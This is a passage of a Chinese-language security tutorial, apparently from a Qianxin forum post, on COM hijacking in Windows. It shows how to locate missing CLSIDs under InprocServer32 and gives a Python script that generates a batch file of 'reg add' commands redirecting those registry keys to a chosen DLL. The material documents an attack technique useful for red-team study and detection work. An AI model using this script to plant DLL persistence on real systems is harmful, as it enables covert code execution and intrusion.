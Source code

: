 发现msf劫持的是`HKCU\Software\classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}`，dll的位置在`C:\Users\messi \AppData\Local\Temp\LlvIwfwd.dll`

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-e308bbc2604d71c3a57dd6e62465a53560d01a5e.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-e308bbc2604d71c3a57dd6e62465a53560d01a5e.png)

那么思路就清晰了，我们就需要修改注册表，然后让注册表的路径指向我们存放dll的路径即可

利用缺失的CLSID
----------

这里我选择的是对计算器进行com劫持，首先找一下缺少的CLSID并在`InprocServer32`下

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-083d60f2e1f30dfde1908fae6dad4233f0189655.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-083d60f2e1f30dfde1908fae6dad4233f0189655.png)

找到了几个能够劫持的com组件

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-ba6817338dcadc090432b4426e97c1acc0281566.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-ba6817338dcadc090432b4426e97c1acc0281566.png)

保存并导出为`Logfile.CSV`

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-14181bb9a900e88e88112c74c71c808f40b2c660.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-14181bb9a900e88e88112c74c71c808f40b2c660.png)

然后写一个py脚本，批量循环添加注册表指向dll路径并生成一个`com_hijack.bat`

```c++
reg add [PATH] /ve /t REG_SZ /d C:\\Users\\Administrator\\testdll.dll /f
```

完整代码如下

```c++
import csv

class Inject(object):
    def __init__(self):
        self.path='Logfile.CSV'

    def add(self):
        with open(self.path,'r',encoding='utf-8') as r:
            g=csv.DictReader(r)
            for name in g:
                z=[x for x in name]
                for i in z:
                    if 'HK' in str(name[i]):
                        print('reg add {} /ve /t REG_SZ /d C:\\Users\\Administrator\\Desktop\\testdll.dll /f'.format(name[i]),file=open('com_hijack.bat','a',encoding='utf-8'))

if __name__ == '__main__':
    obj=Inject()
    obj.add()
    print('[!] Administrator run com_hijack.bat')
```
